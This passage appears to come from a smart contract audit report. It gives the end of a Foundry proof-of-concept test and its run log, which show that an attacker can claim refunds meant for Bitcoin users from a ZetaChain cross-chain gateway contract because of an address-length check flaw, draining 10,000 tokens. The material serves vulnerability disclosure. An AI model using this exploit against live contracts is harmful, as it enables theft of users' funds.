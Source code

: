 ```solidity
        console.log("Bitcoin refund vulnerable: Attacker successfully claimed", refundAmount / 1e18, "tokens");
        
        // Show that legitimate EVM user can still claim their refund
        vm.prank(user2);
        gatewayCrossChain.claimRefund(evmExternalId);
        assertEq(token1Z.balanceOf(user2), refundAmount, "Legitimate EVM user got their refund");
        console.log("Legitimate EVM user successfully claimed their refund");
    }

}
```

Test Result:
```log
$ forge test --fork-url https://zetachain-evm.blockpi.network/v1/rpc/public --mc GatewayCrossChainPOCTest -vv
[⠒] Compiling...
[⠒] Compiling 1 files with Solc 0.8.26
[⠢] Solc 0.8.26 finished in 68.59s
Compiler run successful!

Ran 3 tests for test/GatewayCrossChainPOC.t.sol:GatewayCrossChainPOCTest
[PASS] test_PoC_ClaimRefundVulnerability() (gas: 201804)
Logs:
  === BEFORE ATTACK ===
  Contract balance: 10000000000000000000000
  Attacker balance: 0
  Bitcoin address length: 42 bytes
  === AFTER ATTACK ===
  Contract balance: 0
  Attacker balance: 10000000000000000000000
  === ATTACK ANALYSIS ===
  Attack successful: Attacker stole 10000 tokens intended for Bitcoin user
  Vulnerability: walletAddress.length = 42 (not 20 bytes)
  This means: require(bots[attacker] || attacker == attacker) = require(false || true) = true

[PASS] test_PoC_ClaimRefundVulnerability_CompareWithEVM() (gas: 300854)
Logs:
  === TESTING PROTECTION MECHANISMS ===
  EVM address length: 20 bytes
  Bitcoin address length: 42 bytes
  EVM refund protected: Attacker cannot claim
  Bitcoin refund vulnerable: Attacker successfully claimed 1000 tokens
  Legitimate EVM user successfully claimed their refund

[PASS] test_UpgradeImplementation() (gas: 8277807)
Suite result: ok. 3 passed; 0 failed; 0 skipped; finished in 14.24s (2.48s CPU time)

Ran 1 test suite in 15.71s (14.24s CPU time): 3 tests passed, 0 failed, 0 skipped (3 total tests)
```
